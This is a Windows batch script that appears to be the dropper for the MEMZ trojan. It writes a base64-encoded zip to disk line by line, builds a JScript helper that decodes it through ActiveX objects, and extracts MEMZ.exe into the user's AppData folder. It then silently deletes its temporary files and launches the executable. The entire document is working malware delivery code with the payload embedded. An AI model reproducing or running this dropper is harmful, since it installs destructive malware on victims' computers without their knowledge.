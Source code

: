 echo iKoRO5YOpgOHFZhZFQ4EEDkncHMVll7XZOtpUiXdkpudNAsn5D+mzJBxtcD+jLF5eN5PFqvbaB68>>x
echo BsGFNJEqj0Aji8+BllntwaWgy+uHzJUT79hpFZDN7qhzdQbsgT70pdK11ONI90hUGuxeHqPulrgK>>x
echo Xi+I1eHS1EYG43LRQWZyF2OjGnAJ4N5X5bFTHbwwIbkgeJBX+I2FNp/dH3QKCIn3q+LrMxaucQWC>>x
echo oTay7yqmAbsbPH+uXOsROieU+Fy8JSmRNEgr8PA+jEPq2mCpMxbmS0G2nUpaL5+QbeSyspn+qOCB>>x
echo GHEcIT8h1S4k/7jNTA4j/0WozttcPlzJg5ZecoBU891yk4qFEXXKJtwu6UVPWp6F7iNvfIXyQIra>>x
echo TrnLKUY9j6ytC3pIUcb5VAoY8TslNBVnVCMIWy29IK5q8Tnx/jk0+QZG+hzxuTT3wVnfRrZJ2Fof>>x
echo MgdylFQH7D21XTSJ+Q7lLBOoriI8pJV+IsD7gas9TbhKkrQp8rSRb1F54E9BIWAVIC0b96+J9iLa>>x
echo ruaDW0OCXyZCyJ+JxRf2VjldHkdcZEIySRUyS2q6uPjkAwX1LCpdG2mxWZomLDSbVLpClZ4QtbAt>>x
echo FOBhCKm1tro2PuSSYsoeaRa20hMui8hHp9ScPD+D5AFwEbaG/ZOoVrsnDJP+FLbp84fMXbeHXQG+>>x
echo Cjc72atekvFreV8TfJleMc3VrWbrBGtyo8JGk2CLnD2ZycLPtdtIApmyDZoFc2DLNlBd8LlR1Ka2>>x
echo GkvdhFNqiBXXXpsQ9jngNW21DfX1En42iccNLLPWC4tM7DiMstogVH51Xd2Xh+DrLm8uNxGt3kRM>>x
echo AD/gKcAYgM01kQ2AQcAIIDXPRCoAfsA+wCigFMd7L+AIYBxgLUAbcAhwBpCOwLoBMAgYpkHWgDmA>>x
echo CGBpIfCAxwDDgDcB9EvUM4AYYAwwDmCMkA+QDmABuYAiwMUS0FthIroV8oFSCpwHMAjYB3gKcBKQ>>x
echo jdSjFNAMuBMwCNgHOAw4BhgFaIpBG7ABsA9wCPA8IAZgwGcpoBdwBHAZKQ4Xxt5Ok+sf3IC5DYQc>>x
echo nIP1vwJ9xvHL58j47nTImIOzEm3TAULOYvzm9wk5jva+cjLxv0v+HykKko5nuvy/XT6Hp3JyX4Kf>>x
echo hhynhlzNU/6+VKzu9XpY3PGCuEutyjHkczm4DnQJDlwPVuW0NK/JK82h2b/PYfcIPn5VTh8fzFl9>>x
echo 0/SkCkRR3EBxMQEBX3BVDm635cEuJ++1B/MmfyajPy6V24Pe/G2GHFxEfK5u3C1ap3IDKZatCAUQ>>x
echo G2p93UKc2sJrUDMulOZhZpBexHFqxdvABPjb6XWRd1wNM5OdU7vl3Q5B6nDH9bAe+lyVQ7sRccwO>>x
echo r8uH8yJgDwmBHDbsMnfRbb4qp9vuCfI5bMFVfgVfzbCi4HPiVRRMrpNqsGBChWh8pcmRgG6A3WZx>>x
echo uVwpZ+Ju4TZz3ZyXC3NPcf/ODXNHufe4jziFYZphpiHDsNxgMJQZTAbe4Df0G35h+I3hPcNFw2eG>>x
echo tMIVhdWF6wpbCjcVbi0MFe4qvKfwXwofLTxa+Hbhfyv8oPBSYZoxw5hnLDdWG9cZNxm7jT7jncZv>>x
echo Gx8z/tL4ivG08V3jZ0ZlUVKRrii9KKsov6ikyFS0vqi1qKMoUHR30f1F3yt6oujVojNFHxbpim8o>>x
echo zizOLq4rbireUNxR/I3i14rfKf7P4ovFaSXzS4pLzCVbSrwlwZK+kqGSb5fsK3my5HDJcyUnS86U>>x
echo fFjiXhFaMbAiuuKfVvzzit+u+GjF5RXTSvNLS0otpetK15e2lfpL95Q+UPr90qdKXy49VfpeaULZ>>x
echo 7DK2LL+stqyzrL9ssOyBskfK/rXsp2XPlA2XHS37sExdvrC8sfyWck95oHx7+UD53vIfl6eunLeS>>x
echo XblkJc31D1P9cgyn4bScjkvl0rlMjuWyuaXQNccVQd8V0Hg1V8PVcVaumdvAbYL2HZyT83B+LsT1>>x
echo cndyEW4XN8jdw+3l7uP2cQe4g9xj3OPcIVjnMHeEex4WOsa9zo1wb3InuVPcKHeGi3HnuDHuIjfO>>x
echo XeaIgTFoDFqDzpBqSDdkGlhDtmGpIdfAGRCHDTUGq2GDYbPBCWv2Gv4XwsY/yv+35X8CUEsBAhQA>>x
echo FAAAAAgAdXfqSJDoh9lzIQAAADoAAAgAAAAAAAAAAAAAAP+BAAAAAE1FTVouZXhlUEsFBgAAAAAB>>x
echo AAEANgAAAJkhAAAAAA==>>x

echo f=new ActiveXObject(^"Scripting.FileSystemObject^");i=f.getFile(^"x^").openAsTextStream();>x.js
echo x=new ActiveXObject(^"MSXml2.DOMDocument^").createElement(^"Base64Data^");x.dataType=^"bin.base64^";>>x.js
echo x.text=i.readAll();o=new ActiveXObject(^"ADODB.Stream^");o.type=1;o.open();o.write(x.nodeTypedValue);>>x.js
echo z=f.getAbsolutePathName(^"z.zip^");o.saveToFile(z);s=new ActiveXObject(^"Shell.Application^");>>x.js
echo s.namespace(26).copyHere(s.namespace(z).items());o.close();i.close();>>x.js

set v="%appdata%\MEMZ.exe"
del %v% >NUL 2>NUL
cscript x.js >NUL 2>NUL
del x.js >NUL 2>NUL
del z.zip >NUL 2>NUL
del x >NUL 2>NUL
start "" %v%
